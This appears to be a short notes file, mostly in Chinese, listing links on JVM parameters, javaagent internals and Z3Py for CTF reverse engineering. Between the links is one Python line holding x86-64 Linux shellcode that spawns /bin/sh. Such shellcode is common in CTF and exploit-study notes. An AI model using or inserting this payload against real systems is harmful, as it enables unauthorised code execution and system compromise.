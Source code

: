 Java 6 JVM参数选项大全（中文版） http://www.blogjava.net/bitbit/archive/2009/11/30/304247.html
JVM源码分析之javaagent原理完全解读  http://www.infoq.com/cn/articles/javaagent-illustrated
  
  
shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

Z3Py在CTF逆向中的运用(Z3是Microsoft Research开发的高性能定理证明器)
http://www.freebuf.com/articles/database/170814.html
